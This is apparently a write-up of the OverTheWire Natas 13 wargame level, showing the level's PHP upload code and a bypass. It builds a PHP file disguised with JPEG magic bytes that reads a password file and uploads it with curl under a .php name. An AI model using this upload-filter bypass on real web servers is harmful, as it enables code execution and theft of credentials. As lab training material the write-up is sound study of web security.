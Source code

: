 # Natas 13 -> 14

```
http://natas13.natas.labs.overthewire.org
```

```
Username: natas13
```

The same form of the previous level. Except this time they only accept images :-)

```php
function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<? } 
```

Well this time they use `if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {`.  
From the PHP.net documentation:  
```
exif_imagetype() reads the first bytes of an image and checks its signature.

exif_imagetype() can be used to avoid calls to other exif functions with unsupported file types or in conjunction with $_SERVER['HTTP_ACCEPT'] to check whether or not the viewer is able to see a specific image in the browser. 

When a correct signature is found, the appropriate constant value will be returned otherwise the return value is FALSE. The return value is the same value that getimagesize() returns in index 2 but exif_imagetype() is much faster.

Note:
exif_imagetype() will emit an E_NOTICE and return FALSE if it is unable to read enough bytes from the file to determine the image type.
```

So `exif_imagetype` reads the first bytes, so let's google for "JPEG Header" and disguise our script.

```bash
$ echo -ne "\xff\xd8\xff\xe1\n<?var_dump(file_get_contents('/etc/natas_webpass/natas14'));" > /tmp/natas13.php
```

Let's try uplading *again* a PHP with, this time with `curl`

```bash
$ curl --user natas13:${NATAS13_PASSWD} --form uploadedfile=@/tmp/natas13.php --form MAX_FILE_SIZE=1000 --form filename=bjjgz1rvxd.php http://natas13.natas.labs.overthewire.org/index.php
```

Aaand

```
For security reasons, we now only accept image files!<br/><br/>

The file <a href="upload/bjjgz1rvxdf32fdqw.php">upload/bjjgz1rvxdf32fdqw.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

ÿØÿá !


* php
* file_get_contents
* var_dump
* exif_imagetype
* curl
* https://en.wikipedia.org/wiki/JPEG
